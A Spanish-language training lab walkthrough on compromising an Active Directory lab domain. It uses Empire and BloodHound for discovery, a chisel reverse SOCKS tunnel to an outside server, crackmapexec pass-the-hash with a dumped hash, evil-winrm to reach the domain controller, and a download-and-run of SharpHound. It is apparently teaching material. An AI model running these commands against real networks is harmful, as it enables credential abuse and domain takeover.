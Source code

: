 # Laboratorio parte 2

## Referencias: 
- [PayloadAllTheThings - Active Directory Attack](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
- [Bloodhound](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)
- 


## Objetivos

Descubrir el siguiente target con el objetivo de obtener el control del Dominio, se usa de una herramienta para encontrar la ruta más eficaz.
Finalmente con movimientos laterales se logra llegar al Domain Controller.


## Fases que se van a realizar
- **Descubrimiento**: A través de bloodhound es posible identificar la ruta.
- **Movimiento lateral**: Con distintas tecnicas se logra pivotar al Domain Controler.


## Walkthrough

### Exportar información del dominio

```bash
(Empire: SRV1) > usemodule powershell/situational_awareness/network/bloodhound3 

(Empire: usemodule/powershell/situational_awareness/network/bloodhound3) > set Agent SRV1
# [*] Set Agent to SRV1
(Empire: usemodule/powershell/situational_awareness/network/bloodhound3) > set OutputDirectory C:\\DATA
# [*] Set OutputDirectory to C:\DATA
(Empire: usemodule/powershell/situational_awareness/network/bloodhound3) > set Domain lab.grailcyber.tech
# [*] Set Domain to lab.grailcyber.tech
(Empire: usemodule/powershell/situational_awareness/network/bloodhound3) > execute
# [*] Tasked SRV1 to run Task 10
(Empire: SRV1) >
```



### Descubrimiento con Bloodhound

```bash
# Iniciar servidor neo4j en Others
docker run -p7474:7474 -p7687:7687 -e NEO4J_AUTH=neo4j/bloodhound neo4j

```
Iniciar el cliente de bloodhound 

https://github.com/hausec/Bloodhound-Custom-Queries


### Movimiento lateral 

```bash
root@ubuntu-s-2vcpu-2gb-amd-lon1-01:~# ./chisel server --reverse --socks5 -p 7001
```

```bash

(SRV1) C:\Windows\system32 > dir C:\Tools                                                                                                                   {                                                                                                                                                               "Mode":  "-a----",                                                                                                                                          "Owner":  "BUILTIN\\Administrators",                                                                                                                        "LastWriteTime":  "\/Date(1648657729004)\/",                                                                                                                "Length":  8230912,                                                                                                                                         "Name":  "chisel.exe"                                                                                                                                   }
(SRV1) C:\Windows\system32 > cd C:\Tools
(SRV1) C:\Windows\system32 > ./chisel.exe client http://xxx.xxx.xxx.xxx:7001 R:8001:socks
```

Con las credenciales dumpeadas hacemos el check para verificar que se puede ejecutar comandos

```bash
root@ubuntu-s-2vcpu-2gb-amd-lon1-01:~# proxychains -q crackmapexec smb 192.168.2.5-20 -u 'vagrant' -H 'e02bc503339d51f71d913c245d35b50b'
SMB         192.168.2.15    445    SRV1             [*] Windows 10.0 Build 17763 x64 (name:SRV1) (domain:lab.grailcyber.tech) (signing:False) (SMBv1:False)
SMB         192.168.2.10    445    LAB-DC01         [*] Windows 10.0 Build 17763 x64 (name:LAB-DC01) (domain:lab.grailcyber.tech) (signing:True) (SMBv1:False)
SMB         192.168.2.10    445    LAB-DC01         [+] lab.grailcyber.tech\vagrant:e02bc503339d51f71d913c245d35b50b (Pwn3d!)
SMB         192.168.2.15    445    SRV1             [+] lab.grailcyber.tech\vagrant:e02bc503339d51f71d913c245d35b50broot@ubuntu-s-2vcpu-2gb-amd-lon1-01:~# proxychains -q crackmapexec smb 192.168.2.5-20
SMB         192.168.2.10    445    LAB-DC01         [*] Windows 10.0 Build 17763 x64 (name:LAB-DC01) (domain:lab.grailcyber.tech) (signing:True) (SMBv1:False)
SMB         192.168.2.15    445    SRV1             [*] Windows 10.0 Build 17763 x64 (name:SRV1) (domain:lab.grailcyber.tech) (signing:False) (SMBv1:False)
```

Ahora se utiliza evil-winrm para obtener ejecución de comandos al Domain Controller

```bash
root@ubuntu-s-2vcpu-2gb-amd-lon1-01:~# proxychains -q evil-winrm -i 192.168.2.10 -u 'vagrant' -H 'e02bc503339d51f71d913c245d35b50b'

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\vagrant\Documents> hostname
LAB-DC01
```

### Problemas

¿No ha funcionado? 
La siguiente lista de comprobación para verificar que esta todo correcto:

- Revisar que el chisel tenga conexión. 
- El fichero de proxychains tiene que ser por socks5
- Si sharphound no funciona debido que no esta actualizado se puede utilizar lo siguiente: 

```powershell
# Descargar sharphound

iwr -uri https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe?raw=true -outfile s.exe;.\s.exe -d lab.grailcyber.tech
```











